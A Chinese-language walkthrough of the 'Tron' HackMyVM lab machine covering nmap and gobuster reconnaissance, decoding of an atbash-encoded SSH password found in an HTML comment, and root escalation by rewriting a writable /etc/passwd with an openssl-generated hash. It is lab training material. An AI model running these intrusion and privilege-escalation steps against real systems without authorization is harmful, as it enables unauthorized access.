


# 信息搜集
主机发现

```bash
┌──(root㉿kali)-[~]
└─# arp-scan -l
Interface: eth0, type: EN10MB, MAC: 00:0c:29:f7:03:e6, IPv4: 192.168.21.13
Starting arp-scan 1.10.0 with 256 hosts (https://github.com/royhills/arp-scan)
192.168.21.2    04:6c:59:bd:33:50       Intel Corporate
192.168.21.1    cc:e0:da:eb:34:a2       Baidu Online Network Technology (Beijing) Co., Ltd
192.168.21.7    08:00:27:cc:ff:fe       PCS Systemtechnik GmbH
192.168.21.11   92:87:65:03:f9:bb       (Unknown: locally administered)

4 packets received by filter, 0 packets dropped by kernel
Ending arp-scan 1.10.0: 256 hosts scanned in 2.052 seconds (124.76 hosts/sec). 4 responded
```
端口扫描

```bash
┌──(root㉿kali)-[~]
└─# nmap --min-rate 10000 -p- 192.168.21.7
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-03-13 22:45 EDT
Nmap scan report for 192.168.21.7 (192.168.21.7)
Host is up (0.00065s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
MAC Address: 08:00:27:CC:FF:FE (Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 1.96 seconds
                                                                
┌──(root㉿kali)-[~]
└─# nmap -sU --min-rate 10000 -p- 192.168.21.7
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-03-13 22:46 EDT
Warning: 192.168.21.7 giving up on port because retransmission cap hit (10).
Nmap scan report for 192.168.21.7 (192.168.21.7)
Host is up (0.00098s latency).
All 65535 scanned ports on 192.168.21.7 (192.168.21.7) are in ignored states.
Not shown: 65457 open|filtered udp ports (no-response), 78 closed udp ports (port-unreach)
MAC Address: 08:00:27:CC:FF:FE (Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 73.16 seconds
                                                                
┌──(root㉿kali)-[~]
└─# nmap -sT -sV -O -p22,80 192.168.21.7      
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-03-13 22:48 EDT
Nmap scan report for 192.168.21.7 (192.168.21.7)
Host is up (0.00028s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
MAC Address: 08:00:27:CC:FF:FE (Oracle VirtualBox virtual NIC)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.8
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.62 seconds
```
漏洞扫描

```bash
┌──(root㉿kali)-[~]
└─# nmap --script=vuln -p22,80 192.168.21.7
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-03-13 22:50 EDT
Nmap scan report for 192.168.21.7 (192.168.21.7)
Host is up (0.00029s latency).

PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
|_http-dombased-xss: Couldn't find any DOM based XSS.
|_http-csrf: Couldn't find any CSRF vulnerabilities.
| http-enum: 
|   /robots.txt: Robots file
|   /img/: Potentially interesting directory w/ listing on 'apache/2.4.38 (debian)'
|_  /manual/: Potentially interesting folder
MAC Address: 08:00:27:CC:FF:FE (Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 31.82 seconds
```
# 漏洞利用
看一下80端口有什么

```bash
┌──(root㉿kali)-[~]
└─# curl http://192.168.21.7                 
<!DOCTYPE html>
<!-- kzhh:SbWP9q94ZtE9qD  -->
<html lang="en">
    <head>
        <meta charset="utf-8">
        <link href="style.css" rel="stylesheet">
        <title>Master Control Program</title>
    </head>

    <body> 
        <h1 class="neon" data-text="Tron">Tron</h1>
    </body> 
</html>
```
目录扫描，没扫到什么

```bash
┌──(root㉿kali)-[~]
└─# gobuster dir -u http://192.168.21.7 -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt 
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.21.7
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/img                  (Status: 301) [Size: 310] [--> http://192.168.21.7/img/]                                                  
/manual               (Status: 301) [Size: 313] [--> http://192.168.21.7/manual/]                                               
/font                 (Status: 301) [Size: 311] [--> http://192.168.21.7/font/]                                                 
/server-status        (Status: 403) [Size: 277]
Progress: 207643 / 207644 (100.00%)
===============================================================
Finished
===============================================================
```
看一下/robots.txt

```bash
/user
/admin
/program
/memory
/kernel
/boot
/404
/docker
/??????
```
换一个字典扫一下

```bash
┌──(root㉿kali)-[~]
└─# gobuster dir -u http://192.168.21.7 -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-big.txt -x html,php,txt 
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.21.7
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              html,php,txt
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.html                (Status: 403) [Size: 277]
/index.html           (Status: 200) [Size: 309]
/img                  (Status: 301) [Size: 310] [--> http://192.168.21.7/img/]                                                  
/manual               (Status: 301) [Size: 313] [--> http://192.168.21.7/manual/]                                               
/robots.txt           (Status: 200) [Size: 623]
/font                 (Status: 301) [Size: 311] [--> http://192.168.21.7/font/]                                                 
/.html                (Status: 403) [Size: 277]
/MCP                  (Status: 301) [Size: 310] [--> http://192.168.21.7/MCP/]                                                  
/server-status        (Status: 403) [Size: 277]
/logitech-quickcam_W0QQcatrefZC5QQfbdZ1QQfclZ3QQfposZ95112QQfromZR14QQfrppZ50QQfsclZ1QQfsooZ1QQfsopZ1QQfssZ0QQfstypeZ1QQftrtZ1QQftrvZ1QQftsZ2QQnojsprZyQQpfidZ0QQsaatcZ1QQsacatZQ2d1QQsacqyopZgeQQsacurZ0QQsadisZ200QQsaslopZ1QQsofocusZbsQQsorefinesearchZ1.html (Status: 403) [Size: 277]
Progress: 5095328 / 5095332 (100.00%)
===============================================================
Finished
===============================================================
```
/MCP/tron.txt

```bash
MASTER CONTROL PROGRAM
----------------------

Ram:
Do you believe in the Users?

Crom:
Sure I do! If I didn't have a User, than who wrote me? 


KysrKysrKysrK1s+Kz4rKys+KysrKysrKz4rKysrKysrKysrPDw8PC1dPj4+PisrKysrKysrKysrKy4tLS0tLi0tLS0tLS0tLS0tLisrKysrKysrKysrKysrKysrKysrKysrKy4tLS0tLS0tLS0tLS0tLS0tLS0tLS4rKysrKysrKysrKysrLg==
```
解码一下



/MCP/terminalserver/30513.txt

```bash
substitute
--------------------------
plaintext
abcdefghijklmnopqrstuvwxyz

ciphertext
zyxwvutsrqponmlkjihgfedcba
--------------------------
```
看大佬写了个脚本来解密，得到：SyWP9j94ZgE9jD

```bash
str1 = "abcdefghijklmnopqrstuvwxyz"
str2 = "zyxwvutsrqponmlkjihgfedcba"
ciphertext = "kzhh:SbWP9q94ZtE9qD"
plaintext = ""
for i,c in enumerate(ciphertext):
    if c in str2:
        index = str2.find(c)
        plaintext += str1[index]
    else:
        plaintext += c
print(plaintext) 
```
ssh链接

```bash
┌──(root㉿kali)-[~]
└─# ssh player@192.168.21.7
player@192.168.21.7's password: 
Linux tron 4.19.0-16-amd64 #1 SMP Debian 4.19.181-1 (2021-03-19) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.

player@tron:~$ 
```
# 提权
user.txt

```bash
player@tron:~$ ls -la
total 32
drwxr-xr-x 3 player player 4096 May  1  2021 .
drwxr-xr-x 3 root   root   4096 Apr 24  2021 ..
-rw------- 1 player player    2 May  2  2021 .bash_history
-rw-r--r-- 1 player player  220 Apr 24  2021 .bash_logout
-rw-r--r-- 1 player player 3526 Apr 24  2021 .bashrc
drwxr-xr-x 3 player player 4096 Apr 26  2021 .local
-rw-r--r-- 1 player player  807 Apr 24  2021 .profile
-rw-r--r-- 1 root   root     19 May  1  2021 user.txt
player@tron:~$ cat user.txt
HMVMuserplayer2021
```
没找到哪里可以提权的地方

```bash
player@tron:~$ sudo -l
[sudo] password for player: 
Sorry, user player may not run sudo on tron.
player@tron:~$ find / -perm -u=s -type f 2>/dev/null
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/bin/passwd
/usr/bin/mount
/usr/bin/chfn
/usr/bin/chsh
/usr/bin/gpasswd
/usr/bin/su
/usr/bin/sudo
/usr/bin/umount
/usr/bin/newgrp
player@tron:~$ which getcap
player@tron:~$ whereis getcap
getcap: /usr/sbin/getcap /usr/share/man/man8/getcap.8.gz
player@tron:~$ /usr/sbin/getcap -r / 2>/dev/null
/usr/bin/ping = cap_net_raw+ep
player@tron:~$ cat /etc/passwd | grep /bin/bash
root:x:0:0:root:/root:/bin/bash
player:x:1000:1000:player,,,:/home/player:/bin/bash
```
上传脚本找一下



修改root密码

```bash
player@tron:~$ openssl passwd
Password: 
Verifying - Password: 
qm2GNxi3PoLXo
player@tron:~$ nano /etc/passwd
```
提权成功，root.txt

```bash
player@tron:~$ su root
Password: 
root@tron:/home/player# id
uid=0(root) gid=0(root) groups=0(root)
root@tron:/home/player# cd ~
root@tron:~# ls -la
total 28
drwx------  4 root root 4096 May  2  2021 .
drwxr-xr-x 18 root root 4096 May  2  2021 ..
lrwxrwxrwx  1 root root    9 May  2  2021 .bash_history -> /dev/null
-rw-r--r--  1 root root  570 Jan 31  2010 .bashrc
drwx------  3 root root 4096 Apr 26  2021 .config
drwxr-xr-x  3 root root 4096 Apr 24  2021 .local
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
-rw-r--r--  1 root root   29 May  1  2021 root.txt
root@tron:~# cat root.txt
HMVMMasterControlProgram2021
```